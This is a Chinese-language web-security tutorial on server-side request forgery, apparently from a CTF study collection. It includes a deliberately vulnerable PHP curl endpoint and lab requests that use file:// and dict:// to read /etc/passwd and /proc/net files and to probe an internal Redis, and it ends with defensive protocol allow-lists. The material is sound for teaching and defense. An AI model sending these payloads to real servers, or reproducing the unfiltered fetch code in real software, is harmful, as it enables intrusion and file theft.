


# 🌐 SSRF 服务端请求伪造深度剖析：网络穿透机制与支持协议矩阵

> **漏洞本质**：服务端请求伪造（Server-Side Request Forgery，SSRF）是由攻击者构造恶意载荷，**诱使服务端应用程序充当代理由内向外或向内网发起网络请求**的漏洞。
> 由于 Web 服务器往往处于内网与公网的交界处（DMZ 隔离区），其发起请求的身份天然具备**内网信任凭据**。攻击者借助目标服务器的这一“内网代理人”身份，可以绕过外网防火墙，刺探内网拓扑、读取本地敏感文件，甚至横向移动控制内网核心组件！

---

## 0. 基础前置认知与小白扫盲：从生活比喻彻底搞懂 SSRF

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 生活比喻：借大公司专员的工牌偷溜进内网金库
* **传统攻击（正门被严防死守）**：
  * 大公司的内部核心数据库（如 Redis、MySQL、内部管理后台）通常部署在内网局域网（`192.168.x.x` 或 `10.x.x.x`），外面有强大的企业级硬件防火墙阻隔，公网黑客根本没有内网路由，碰都碰不到这些服务器。
* **服务端请求伪造（SSRF，借刀杀人）**：
  * 这家大公司的官网上有一个“抓取远程图片/导入外部头像”的功能，用户输入一个 URL，**外网 Web 服务器就会亲自帮你去发起 HTTP 请求把图片下载下来**。
  * **黑客的绝妙诡计**：
    * 黑客不在输入框里填外网图片链接，而是填入内网地址：`http://127.0.0.1:6379` 或 `http://192.168.1.10/admin/delete_user`。
    * 外网 Web 服务器作为公司内部员工，拥有直通内网的通行权限。它拿到黑客的输入后，毫不怀疑地向内网数据库发起连接，**把防火墙彻底架空，成为黑客在内网中的提线木偶！**



---

### 2. SSRF 常用三大协议矩阵速查
* **`file://`（系统本地文件读取）**：
  * 例如 `file:///etc/passwd` 或 `file:///C:/Windows/win.ini`。直接让目标服务器把磁盘上的敏感文件读出来并回显。
* **`dict://`（轻量级字典探测端口服务）**：
  * 原本用于在线查词典的协议，但它有个特性：支持向目标 IP 的任意端口发送一条简短指令并查看回显。常用于在内网扫描存活主机与开放端口。
* **`gopher://`（万能万金油协议）**：
  * 早期互联网的全双工协议。它可以随意自定义端口，并且支持将**任意十六进制原始 TCP 报文（包括换行符 `\r\n`）原封不动打入目标端口**！
  * 只要利用 Gopher 协议打包 Redis 报文或 FastCGI 报文，就能跨网络实现一键写 WebShell 或反弹 Root Shell！

---

## 一、SSRF 架构与内网信任击穿模型



---

## 二、后端网络请求函数对比与危险 Sink 审计

不同语言与函数库对 URL Schema 伪协议的支持范围差异极大，这是决定 SSRF 危害上限的关键：

| 请求函数 / 类库 | 运行环境 | 支持协议矩阵 | 攻击危害上限与特性 |
| :--- | :--- | :--- | :--- |
| **`curl_exec()`** | PHP (`ext-curl` / `libcurl`) | `http`, `https`, `file`, `dict`, `gopher`, `ftp`, `tftp`, `ldap` 等数十种 | **💥 最强攻击面**。支持 `gopher://` 与 `dict://`，可与内网任意 TCP 服务直接交互 |
| **`file_get_contents()`** | PHP Stream 封装器 | `http`, `https`, `ftp`, `file`, `php`, `data` 等 | **默认不支持 `gopher://` 与 `dict://`**。常用于任意本地文件读取（`file://`）与内网 HTTP 探测 |
| **`fsockopen()`** | PHP 原生 Socket | 仅限 TCP/UDP 传输层连接 | 只能控制目标 IP 和 Port，需代码内部自行构造应用层报文，攻击复杂度高 |
| **`requests.get()`** | Python | 默认仅限 `http`, `https` | 无法直接触发 `file://` 或 `gopher://`，但可用于内网 HTTP API 扫描 |
| **`urllib.request`** | Python 标准库 | `http`, `https`, `ftp`, `file`, `data` | 支持 `file://` 读取本地文件；旧版本曾存在 CRLF 注入漏洞 |
| **`HttpURLConnection`** | Java 原生网络库 | `http`, `https`, `file`, `jar`, `netdoc` | 支持 `file://` / `netdoc://` 读文件，支持跟随 302 跳转 |

---

## 三、SSRF 常用伪协议深度剖析与利用矩阵

### 1. `file://` 协议：本地敏感信息勘探与内网拓扑绘制

* **协议功能**：直接以操作系统的文件访问权限读取本地磁盘中的任意静态文件。
* **经典读取路径与渗透实战价值**：

| 文件绝对路径 | 包含的核心情报与渗透价值 |
| :--- | :--- |
| **`file:///etc/passwd`** | 获取系统全部用户列表、Shell 环境与服务运行账户（如 `redis`, `mysql`, `www-data`） |
| **`file:///proc/net/arp`** | **内网侦察神级文件！** 显示内核 ARP 缓存表，**直接暴露局域网内当前服务器通信过的其他主机 IP 与 MAC 地址！** |
| **`file:///proc/net/tcp`** | 打印当前 Linux 主机所有正在监听的 TCP 端口（十六进制表示），发现未暴露到公网的本地私有端口（如 `0x18EB` $\iff 6379$） |
| **`file:///etc/hosts`** | 查看域名静态绑定，常包含内网测试域名（如 `k8s-node1`, `api.internal.local`） |
| **`file:///etc/resolv.conf`**| 查看内网 DNS 服务器地址，定位内网网关与域控 |
| **`file:///var/log/nginx/access.log`** | 查看 Web 访问日志，配合文件包含可演变为 RCE |

---

### 2. `dict://` 协议：轻量级内网端口探测与简单交互

* **协议原型**：字典服务器协议（RFC 2229），默认端口为 `2628`。
* **利用机制**：`dict://` 协议的通信逻辑非常简单——它会向目标服务器的目标端口建立 TCP 连接，并将 URL 路径中的字符串作为纯文本指令发送过去，最后返回对方的响应！
* **实战应用场景**：

#### (1) 内网端口存活嗅探（Port Scanning）：
* 向存活端口发起请求：立即返回 Banner 或特定协议拒绝响应（响应时间极快）。
* 向关闭端口发起请求：立即返回 Connection Refused 报错。
* 向被防火墙 Drop 的端口发起请求：出现明显的网络超时挂起（5s~10s）。

#### (2) 与 Redis 简易交互（未授权探测）：
```http
GET /proxy?url=dict://127.0.0.1:6379/info HTTP/1.1
```
* **执行效果**：`dict` 协议会直接向 6379 端口发送 `info\r\n`，Redis 接收到指令后会输出完整的版本号、OS架构、内存占用等情报！

---

### 3. `gopher://` 协议：万协议之母与任意 TCP 二进制数据流走私

* **协议地位**：在 1990 年代广泛使用的分布式文档传输协议，设计初衷是简单的文本分发，但它的底层行为极其自由：
  **它允许在 URL 中通过 URL 编码任意二进制字节（包括 `\r\n` 回车换行符）！**
* **语法规范**：
  ```text
  gopher://<target_ip>:<port>/_<payload>
  ```
  > [!IMPORTANT]
  > **关键规则（Gopher 为什么需要下划线 `_`？）**：
  > 根据 Gopher 协议标准规范，URL 路径中的**第一个字符**会被当作为 Gopher item-type（条目类型，如 `0` 代表文本文件，`1` 代表目录）。
  > 客户端（如 libcurl）在建立 TCP 连接后，**会自动将这第一个字符剥离或替换，只将其后的内容真正发送到 TCP 链路中**！
  > 因此，我们必须在端口后固定填入一个占位字符（习惯使用下划线 `_`），随后紧跟真正的 Payload 数据！

* **攻击边界**：因为可以自定义换行符 `\r\n`（`%0d%0a`），Gopher 能够伪装成任何基于 TCP 的明文协议：
  * 伪装 HTTP POST 请求打内网 Web API；
  * 伪装 Redis RESP 协议写计划任务 / SSH 公钥；
  * 伪装 FastCGI 二进制报文直接达成 RCE；
  * 伪装 MySQL 握手包发起无密码 SQL 注入！

---

## 四、CTF 实战靶场案例复现

### 靶场情境：内网情报勘测与特权端口定位

#### 后端漏洞源码（PHP `curl` 实现）：
```php
<?php
highlight_file(__FILE__);

if (isset($_GET['url'])) {
    $url = $_GET['url'];
    
    // 初始化 cURL 会话
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    // 允许跟随重定向
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
    // 设置 3 秒超时
    curl_setopt($ch, CURLOPT_TIMEOUT, 3);
    
    $output = curl_exec($ch);
    curl_close($ch);
    
    echo "<pre>" . htmlspecialchars($output) . "</pre>";
}
?>
```

### 1. 渗透测试与攻防实战第一步：本地文件读取
首先验证 `file://` 协议是否可用，读取系统用户信息与网络状态：

#### HTTP 请求 1：读取 `/etc/passwd`
```http
GET /vuln.php?url=file:///etc/passwd HTTP/1.1
Host: target.ctf:8080
```
* **响应分析**：成功回显系统用户信息，发现存在 `redis:x:999:999::/var/lib/redis:/bin/false`，确认服务器安装并可能运行着 Redis 服务！

#### HTTP 请求 2：读取 `/proc/net/tcp` 发现本地私有端口
```http
GET /vuln.php?url=file:///proc/net/tcp HTTP/1.1
Host: target.ctf:8080
```
* **回显分析**：
  ```text
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid
   0: 0100007F:18EB 00000000:0000 0A ...
  ```
  * `0100007F` $\rightarrow$ 小端序解析：`7F.00.00.01` $\iff \mathbf{127.0.0.1}$
  * `18EB` $\rightarrow$ 十六进制转十进制：$0x18EB = 1 \times 16^3 + 8 \times 16^2 + 14 \times 16 + 11 = \mathbf{6379}$！
  * **结论**：本地 `127.0.0.1:6379` 确凿正在运行 Redis 实例！

---

### 2. 渗透测试实战第二步：读取 ARP 表绘制内网拓扑

```http
GET /vuln.php?url=file:///proc/net/arp HTTP/1.1
Host: target.ctf:8080
```
* **回显分析**：
  ```text
  IP address       HW type     Flags       HW address            Mask     Device
  172.18.0.1       0x1         0x2         02:42:0d:61:99:a2     *        eth0
  172.18.0.3       0x1         0x2         02:42:ac:12:00:03     *        eth0
  ```
  * 发现当前靶机处于 Docker 虚拟网络 `172.18.0.0/16` 中，且同网段内存在另一台活跃主机 `172.18.0.3`！

---

### 3. 渗透测试实战第三步：使用 `dict://` 协议探测 6379 服务详情

```http
GET /vuln.php?url=dict://127.0.0.1:6379/info HTTP/1.1
Host: target.ctf:8080
```
* **回显分析**：
  ```text
  +OK
  # Server
  redis_version:5.0.7
  os:Linux 5.4.0-42-generic x86_64
  ...
  ```
  成功利用 `dict://` 协议穿透内网，拿到 Redis 未授权访问权限与精准版本号！为后续使用 Gopher 协议直接打 RCE 奠定了全部前置基础！

---

## 五、防御规范与安全策略

1. **协议白名单强制校验**：
   在发起请求前，严格限定协议 Schema 仅允许 `http` 和 `https`，显式屏蔽 `file`, `gopher`, `dict`, `ftp` 等危险协议：
   ```php
   $allowed_protocols = ['http', 'https'];
   $scheme = parse_url($url, PHP_URL_SCHEME);
   if (!in_array(strtolower($scheme), $allowed_protocols)) {
       die("Disallowed protocol!");
   }
   ```
2. **libcurl 编译层与选项层限制**：
   在配置 cURL 时，使用 `CURLOPT_PROTOCOLS` 强制收紧协议支持：
   ```php
   curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
   curl_setopt($ch, CURLOPT_REDIR_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
   ```
3. **禁用重定向追踪（`CURLOPT_FOLLOWLOCATION = 0`）**：
   防止攻击者利用公网服务器返回 302 重定向跳转到 `gopher://` 或内网私有地址。

---

## 🔗 相关双向链接
- 上级模块：[[05-服务端请求伪造SSRF]]
- 武器化实战：[[02-Gopher协议利用：打Redis未授权反弹Shell与FastCGI打内网]]
- 防御对抗：[[03-URL解析差异与绕过技巧（@、进制变换、DNS重绑定）]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
